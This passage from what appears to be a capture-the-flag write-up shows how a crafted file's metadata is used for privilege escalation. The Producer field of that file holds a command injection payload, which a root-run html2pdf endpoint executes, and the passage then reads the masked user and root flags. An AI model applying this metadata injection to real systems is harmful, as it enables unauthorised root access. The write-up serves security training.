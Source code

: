 ```bash
exiftool test

ExifTool Version Number         : 12.55
File Name                       : test
Directory                       : .
File Size                       : 2.9 kB
File Modification Date/Time     : 2023:03:12 23:35:14+00:00
File Access Date/Time           : 2023:03:13 00:17:37+00:00
File Inode Change Date/Time     : 2023:03:12 23:35:14+00:00
File Permissions                : -rw-r--r--
File Type                       : EXV
File Type Extension             : exv
MIME Type                       : image/x-exv
XMP Toolkit                     : Image::ExifTool 12.55
Producer                        : a[$(/dev/shm/test.sh>&2)]
```

```bash
cp test /tmp/test
```

- After the previous steps are completed be sure to fire off one of your `/api/html2pdf` endpoints within `burp` then observe in `pspy64` that `/dev/shm/test.sh` will be executed by root ultimately leading to root!

![image](https://0xc0rvu5.github.io/docs/assets/images/20230312214241.png)

- Happy hacking!

```bash
cat /home/dev/user.txt

********************************

cat /root/root.txt

********************************
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230519201520.png)

#hacking
